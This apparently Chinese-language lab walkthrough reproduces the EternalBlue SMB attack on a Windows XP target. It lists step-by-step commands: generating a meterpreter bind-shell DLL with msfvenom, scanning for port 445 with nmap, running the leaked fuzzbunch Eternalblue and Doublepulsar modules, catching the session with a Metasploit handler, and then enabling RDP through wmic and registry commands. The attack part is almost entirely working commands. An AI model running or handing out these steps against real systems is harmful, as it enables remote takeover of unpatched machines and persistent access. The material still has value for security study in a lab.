 ### **漏洞复现**

 1. 环境搭建

|主机类型|OS|IP
|----|---|---
|攻击机1| win2003|10.10.10.130
|攻击机2| kali linux 2.0|10.10.10.128
|靶机|winXP x86|10.10.10.129

 2. 工具准备
 
  - 解压NSA工具包中的windows文件夹到攻击机1的C:\目录下（只要不是中文目录皆可）;
  - 在攻击机1安装:
   - [python-2.6.6.msi][1]
   - [pywin32-221.win32-py2.6.exe][2]
  - 在攻击机2先生成用于回连的dll
  `msfvenom -p windows/meterpreter/bind_tcp LPORT=5555 -f dll > x86bind.dll`

3.扫描开启445端口的活跃主机并探测操作系统
`nmap -Pn -p445 -O 10.10.10.0/24`
`nmap -Pn -p445 -O -iL ip.txt`

4.攻击机1开始利用ETERNALBLUE攻击
`python fb.py
use Eternalblue
...`

5.利用Doublepulsar注入dll
 `use Doublepulsar`
 
6.kali攻击机利用msf回连控制主机5555端口
`use exploit/multi/handler`
`set payload windows/meterpreter/bind_tcp`
`set LPORT 5555`
`set RHOST XXX.XXX.XXX.XXX`
`exploit`
 
### **后渗透攻击**
 
1. 开3389端口<br>
（1）`wmic /namespace:\root\cimv2\terminalservices path win32_terminalservicesetting where (__CLASS != “”) call 
setallowtsconnections 1`<br>
（2）`wmic /namespace:\root\cimv2\terminalservices path win32_tsgeneralsetting where (TerminalName =’RDP-Tcp’) call 
setuserauthenticationrequired 1`<br>
（3）`reg add “HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fSingleSessionPerUser /t REG_DWORD /d 0 /f`<br>

 	针对win XP及win2003只需要第3条命令<br>
 	针对win 7需要第1，2条命令<br>
	 针对win 2012需要3条命令<br>


  [1]: https://www.python.org/download/releases/2.6.6/
  [2]: https://sourceforge.net/projects/pywin32/files/pywin32/Build%20221/pywin32-221.win32-py2.6.exe/download
  [3]: https://github.com/countercept/doublepulsar-detection-script
  [4]: https://svn.nmap.org/nmap/scripts/smb-double-pulsar-backdoor.nse